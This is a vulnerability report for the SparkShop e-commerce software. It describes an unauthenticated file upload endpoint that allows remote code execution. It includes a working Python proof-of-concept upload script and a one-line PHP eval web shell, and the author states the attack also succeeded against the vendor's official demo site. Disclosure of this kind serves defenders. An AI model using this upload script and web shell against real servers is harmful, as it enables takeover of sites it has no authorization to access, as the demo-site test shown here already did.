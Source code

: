 ### BUG_Author:

Rui Jie

### Affected version:

All

### Vendor:

Nanjing Xingyuantu Technology Co. 

### Software:

https://gitee.com/sparkshop/sparkshop
https://github.com/nick-bai/sparkshop

### Vulnerability File:

app/api/controller/Common.php

### Description:
File upload api with unauthorised access exists in all versions
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271558047.png)
And there's no security check on the file upload part
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271559268.png)
We can upload any file via unauthorised api for RCE purposes.
Here I have simply written a python-poc
```
import requests  
url='http://127.0.0.5/api/Common/uploadFile?XDEBUG_SESSION_START=17625'  
file={'file':open('D://shell.php','rb')}  
r = requests.post(url,files=file)  
print(r.text)
```
The contents of shell.php is just a plain old Trojan horse.
```
<?php eval($_POST[1]);?>
```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271602668.png)
Direct upload successfully returned the file address
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271603682.png)
We achieved RCE by uploading a malicious php script

Meanwhile, I tested the official demo site and it can also achieve rce
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271735213.png)
